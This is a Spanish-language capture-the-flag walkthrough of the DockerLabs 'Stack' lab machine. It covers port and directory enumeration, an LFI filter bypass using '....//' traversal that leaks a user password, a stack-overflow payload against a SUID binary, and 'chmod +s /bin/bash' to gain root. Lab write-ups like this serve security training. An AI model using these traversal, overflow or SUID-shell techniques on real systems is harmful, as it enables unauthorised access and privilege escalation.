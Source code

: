 #MAQUINA #DOCKERLABS #MEDIO 
#LFI #BUFFER_OVERFLOW
<hr>

#  RECONOCIMIENTO

Vamos a resolver **Stack** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:39 CET
Initiating ARP Ping Scan at 09:39
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:39, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:39
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:39, 0.51s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-26 09:39:37 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **22(SSH),** **80(HTTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 85:7f:49:c5:89:f6:ce:d2:b3:92:f1:40:de:e0:56:c4 (ECDSA)
|_  256 6d:ed:59:b8:d8:cc:50:54:9d:37:65:58:f5:3f:52:e3 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Web en producci\xC3\xB3n
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds




```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)

Al hacer Ctrl + U al entrar :

```bash
        <!--Mensaje para Bob: hemos guardado tu contrase�a en /usr/share/bob/password.txt-->
```

Usamos **gobuster** para enumerar:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 417]
/file.php             (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/note.txt             (Status: 200) [Size: 110]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos una nota :

```bash
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

Hay un posible **LFI**.

# EXPLOTACION

Usamos **wfuzz** para encontrar el parámetro:

```bash
wfuzz -u "http://172.17.0.2/file.php?FUZZ=note.txt" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/file.php?FUZZ=note.txt
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000741:   200        1 L      17 W       110 Ch      "file"

```

Podemos ver que no podemos hacer uso de cadenas para intentar ejecutar comandos remotamente.

Vamos a intentar escapar de ese str_replace.

Probando veo que si meto doble doble punto y doble barra, me escapo:

```bash
http://172.17.0.2/file.php?file=....//....//....//....//....///usr/share/bob/password.txt
llv6ox3lx300
```

YA ESTAMOS COMO BOB.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUID sobre algo:

   ```bash
bob@dada52a04e82:/opt$ find / -perm -4000 2>/dev/null
/opt/command_exec
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
```

Vemos **command_exec** y al ejecutarlo :

```bash
bob@cbd0c0c8c355:/opt$ ./command_exec 
Escribe la contraseña: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Estás en modo usuario (key = 41414141)
key debe valer 0xdead para entrar al modo administrador
Segmentation fault

```

Vemos que necesitamos 76 A para sobreescribir la variable:

```bash
python -c "print('A'*76 + 'BBBB')" | ./command_exec 

Escribe la contraseña: Estás en modo usuario (key = 42424242)
key debe valer 0xdead para entrar al modo administrador

```

Escribimos nuestro script :
```bash
bob@cbd0c0c8c355:~$ cat script.py 
#!/usr/bin/env perl
$|=1;

$payload = "A" x 76;
$payload .= pack("Q",0xdead);

print $payload;
```

Lo ejecutamos y le ponemos SUID a la bash :
```bash

bob@cbd0c0c8c355:~$ (./script.py ; cat) | /opt/command_exec 
Escribe la contraseña: f
Estás en modo administrador (key = dead)
Escribe un comando: chmod +s /bin/bash

bob@cbd0c0c8c355:~$ ls /bin/bash
/bin/bash
bob@cbd0c0c8c355:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**

